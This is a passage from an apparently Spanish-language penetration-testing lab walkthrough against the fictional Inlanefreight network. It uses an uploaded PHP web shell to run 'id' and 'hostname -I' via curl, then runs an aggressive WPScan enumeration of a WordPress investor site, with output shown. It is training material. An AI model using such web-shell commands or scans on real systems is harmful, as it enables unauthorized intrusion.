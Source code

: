 

```r
curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Verificando la dirección IP del host, no parece que hayamos aterrizado dentro de la red interna de Inlanefreight ya que la dirección IP no está dentro del alcance de la red interna. Esto puede ser solo un servidor web

 independiente, por lo que continuaremos.



```r
curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3
```

Desde aquí, podemos enumerar el host más a fondo, buscando datos sensibles, anotar otros dos hallazgos: `HTTP Verb Tampering` y `Unrestricted File Upload`, y pasar al siguiente host.

---

## ir.inlanefreight.local

El siguiente objetivo en nuestra lista es `http://ir.inlanefreight.local`, el Portal de Relaciones con Inversores de la empresa alojado con WordPress. Para esto podemos consultar la [WordPress - Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1100) de la sección `Attacking Common Applications`. Vamos a iniciar `WPScan` y ver qué podemos enumerar usando la flag `-ap` para enumerar todos los plugins.



```r
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

```